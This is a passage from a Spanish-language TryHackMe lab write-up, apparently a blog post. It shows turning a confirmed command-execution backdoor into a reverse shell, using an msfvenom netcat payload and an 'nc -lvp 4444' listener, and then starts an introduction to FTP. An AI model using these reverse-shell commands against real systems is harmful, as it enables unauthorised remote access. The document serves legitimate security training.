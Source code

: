 Y observamos que efectivamente el TCPDUMP a obtenido un paquete:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220713143424.png' | relative_url }}" text-align="center"/>
</div>

Con lo que los comandos si se ejecutan. Así, para obtener mayor control sobre las acciones que ejecutamos dentro de la misma, lo que hacemos es construir una reverseshell con msfvenom:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

Al ejecutar el comando anterior, el programa MSFvenom nos dará un comando cuya ejecución en una máquina remota nos abrirá una conexión en nuestra máquina local y nos dará una shell (reverse shell).

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220713144620.png' | relative_url }}" text-align="center"/>
</div>

De forma que, acto seguido, abrimos el puerto 4444 en nuestra máquina para que escuche conexiones

```bash
nc -lvp 4444
```

y ejecutamos el comando que nos aporta MSFVenom en la máquina remota a través del backdoor:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220713144714.png' | relative_url }}" text-align="center"/>
</div>

Una vez ejecutado, nuestro puerto recibirá una conexión:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220713144842.png' | relative_url }}" text-align="center"/>
</div>

Y podremos empezar a ejecutar comandos:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220713144859.png' | relative_url }}" text-align="center"/>
</div>

<br />

#### 3.3. FTP.

**Entendiendo FTP**

FTP son las siglas de File Transfer Protocol, se trata de un protocolo empleado en el transporte de ficheros entre dispositivos de una red. Emplea un modelo cliente-servidor. Opera comúnmente sobre el protocolo 21.

Una sesión FTP opera sobre dos canales separados:

- Comandos para transmitir instrucciones.
- Datos que se transmiten entre dispositivos por orden de instrucciones.
